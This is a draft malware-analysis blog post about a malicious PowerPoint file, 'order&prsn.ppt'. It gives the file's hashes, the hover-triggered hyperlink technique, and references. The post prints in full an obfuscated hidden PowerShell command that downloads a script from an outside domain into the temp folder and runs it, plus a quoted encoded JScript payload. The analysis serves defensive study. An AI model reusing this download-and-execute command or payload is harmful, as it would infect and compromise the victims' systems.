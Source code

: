 +++
title = "Analysis of the order&prsn.ppt malicious powerpoint"
date = 2024-03-11T20:03:02+02:00
draft = true
tags = ["Maldocs",".ppt"]
categories = ["Phishing","Malicious_documents"]
ShowToc = true
author = ["connar"]
+++

## Analysis of the order&prsn.ppt document
This post will be for the analysis of a malicious ppt document better known as order.ppt or prsn.ppt. General info about this document:
- MD5: 3bff3e4fec2b6030c89e792c05f049fc
- SHA256: 796a386b43f12b99568f55166e339fcf43a4792d292bdd05dafa97ee32518921

## Techniques used in the document
This document used an onhoven action on a link inside the document to try and invoke a powershell command. Afterwards, it ... 


### Powershell command
Initially, the first command used is the following powershell command which gets triggered upon hoverup on the hyperlink:  
![powershell command](/posts/malicious_ppt_1/powershell_command.png)
The command is:
```ps
powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('http:'+[char] 0x2F+[char] 0x2F+'cccn.nl'+[char] 0x2F+'c.php',\"$env:temp\ii.jse\"); Invoke-Item \"$env:temp\ii.jse\""
```

We can further deobfuscate this command using engines like [tio.run](https://tio.run/):  
![tio.run](/posts/malicious_ppt_1/tioRun_powershell.png)  

So this command tries to:  
- download a file named "c.php" from h[x][x]p://cccn.nl/c.php
- outputs the contents of this file to the temp directory and specifically to a file named ii.jse

Unfortunately, the domain does not exist anymore to be able to download the ii.jse for further analysis. But to my luck, I could find the contents of it in [Hybrid Analysis strings part](https://www.hybrid-analysis.com/sample/55821b2be825629d6674884d93006440d131f77bed216d36ea20e4930a280302?environmentId=100):
```jse
#@~ ^ jh0FAA == dm3rRHmD / 2, {;x9 + Wk + [Ikl3b00KD: \x7f.\l0k o1Fx;Nn0bU + 9 idC0k % 324 + dEkqZ '; N\x7f0k +9I/m3r%Str^4GF{;x9+0bUnNp/m3r%.n7knh:4+l*x; N+Wr +[ikC0k0(DKkVk&WxE Nn0bxn[p/l0r%1WxDUO/:tmxq';U9 + Wk nNp / CVb % ors9 + [, Rx!x[\x7f0 bx + 9 ikC3b % nlMY4\x7f 2 'E [+6kx\x7f[I/m3b%nl.O4vf'!UN\x7f 0 rU\x7f NidC0k0Y4n\x7f Ff { E N + 6 k nNp / C3b % 5;bm32T '!xN\x7fWrx\x7fNp/C3r0Dkh+lq'!x[n6kxn[p / C3b04W;M &amp;U9 + Wk n9idm3b % /DDKUol!xE NnWbx+9I/m 3 kRhGD\x7f 2 ';x[n6kU+9I/m3r04+k.dtlzv2x!x[\x7f0bx+9ikC3b%Ot\x7fx+q{Ex9n0bx+9Idl0kRw.kU^\x7f/**{;x9+Wr +NIdm3r%MCM+jbx1+*F'!UN\x7f 0 rx\x7f NI - mDPkC3b % tm - nKKo\x7f Y4 + .*R '`/D1l=0;U1YkGUvl8+MOByS ~s# M+D;D PjYMkUL]J0MG:;tlMEQJ;Wr_EJQE9+ETvc_EFqqE#_Xb)~.+7r\x7f*lEFy&B)$EdYOlvTv0;U1YkKU`* D\x7fO;D PDD;+INB!S!Bq#3 hCM4V0C=0;x1ObWUvl(+DD~.SxB:b M+O;MxPUODbxo]EWDK:;tCDEQrZGJ3EJ3J[nrT`cQEFT,Eb3*b)~kYE9kRlBO*v8]BhCM4VRCBY`0!U^YbW `b .nDE.x,OD!+INB!~TS8#Q snDl1m)6Ex1YbGxvl8+MYS"Bx~sb M+Y!.UPUYMkUo,E6DG:;4lMJQE;WJQEr_EN\x7fEY`c3BO B*_lb8B4.kTvlv8!&EN$E:+
```


**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://www.youtube.com/watch?v=72Ztp7NNWqc">cybercdh: <i>Malicious Powerpoint and .jse behavioural and code analysis</i></a></li>
        <li> [2] <a href="https://www.virustotal.com/gui/file/796a386b43f12b99568f55166e339fcf43a4792d292bdd05dafa97ee32518921">VirusTotal: <i>order&prsn.ppsx</i></a></li>
    </ul>
</blockquote>